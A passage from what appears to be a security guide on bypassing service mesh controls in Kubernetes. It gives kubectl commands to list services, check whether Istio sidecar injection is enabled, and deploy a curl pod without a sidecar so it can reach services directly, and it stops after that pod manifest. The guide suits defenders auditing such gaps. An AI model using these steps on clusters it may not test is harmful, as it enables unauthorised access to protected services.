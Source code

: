 ### Prerequisites and Conditions Needed

*   A Kubernetes cluster running a service mesh (e.g., Istio, Linkerd, Consul Connect).
*   Knowledge of the target service mesh's configuration and architecture.
*   Access to the Kubernetes API server with sufficient privileges to inspect resources (e.g., `kubectl get`, `kubectl describe`).
*   Ability to deploy pods within the cluster.
*   Network connectivity to the target services.

## 2. Validation and Exploitation Steps

This section demonstrates how to validate and exploit a service mesh security control bypass, focusing on the scenario where proxy injection is not enforced cluster-wide, allowing direct access to services.

**Phase 1: Discovery and Validation**

1.  **Identify Potential Target Services:**

    ```bash
    kubectl get svc -n default # Adjust namespace as needed
    ```

    This command lists all services in the `default` namespace.  We are looking for services that might contain sensitive data or perform critical functions.  Note their names for later steps.  Specifically, identify services that *should* be protected by the service mesh.

    **Expected Output:** A list of services in the `default` namespace, including their names, types, and endpoints.

    **Explanation:** This step helps us understand the landscape of services we might target.

2.  **Check Proxy Injection Status (Istio Example):**

    ```bash
    kubectl get namespace default -o yaml | grep istio-injection
    ```

    This command checks if the `default` namespace has Istio proxy injection enabled. This is a crucial step to understand the configuration. The key is to look for `istio-injection: enabled` or similar. If it's not enabled, proxy injection won't automatically occur for pods deployed in this namespace.

    **Expected Output:** If injection is enabled, you'll see `istio-injection: enabled` in the output. If injection is *not* enabled, you won't see this line.

    **Explanation:** If proxy injection is not enabled for the namespace, pods deployed here will not have the sidecar proxy injected, allowing us to bypass the service mesh controls.

3.  **Deploy a Pod *Without* Proxy Injection (if proxy injection is *not* enabled for the namespace):**

    ```bash
    kubectl apply -f - <<EOF
    apiVersion: v1
    kind: Pod
    metadata:
      name: bypass-pod
    spec:
      containers:
      - name: curl
        image: curlimages/curl:latest
        command: ["sleep", "3600"]
    EOF
    ```

